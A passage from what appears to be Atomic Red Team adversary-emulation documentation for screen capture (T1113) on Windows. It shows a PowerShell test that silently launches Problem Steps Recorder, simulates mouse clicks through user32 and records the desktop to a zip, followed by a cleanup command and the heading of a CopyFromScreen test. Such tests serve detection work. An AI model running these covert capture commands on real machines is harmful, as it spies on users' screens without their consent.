 **Supported Platforms:** Windows


**auto_generated_guid:** 3c898f62-626c-47d5-aad2-6de873d69153





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| output_file | Output file path | path | c:&#92;temp&#92;T1113_desktop.zip|
| recording_time | Time to take screenshots | integer | 5|


#### Attack Commands: Run with `powershell`! 


```powershell
cmd /c start /b psr.exe /start /output #{output_file} /sc 1 /gui 0 /stopevent 12
Add-Type -MemberDefinition '[DllImport("user32.dll")] public static extern void mouse_event(int flags, int dx, int dy, int cButtons, int info);' -Name U32 -Namespace W;
[W.U32]::mouse_event(0x02 -bor 0x04 -bor 0x01, 0, 0, 0, 0);
cmd /c "timeout #{recording_time} > NULL && psr.exe /stop"
```

#### Cleanup Commands:
```powershell
rm #{output_file} -ErrorAction Ignore
```





<br/>
<br/>

## Atomic Test #8 - Windows Screen Capture (CopyFromScreen)
Take a screen capture of the desktop through a call to the [Graphics.CopyFromScreen] .NET API.

[Graphics.CopyFromScreen]: https://docs.microsoft.com/en-us/dotnet/api/system.drawing.graphics.copyfromscreen

**Supported Platforms:** Windows


**auto_generated_guid:** e9313014-985a-48ef-80d9-cde604ffc187





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| output_file | Path where captured results will be placed | path | $env:TEMP&#92;T1113.png|


#### Attack Commands: Run with `powershell`! 
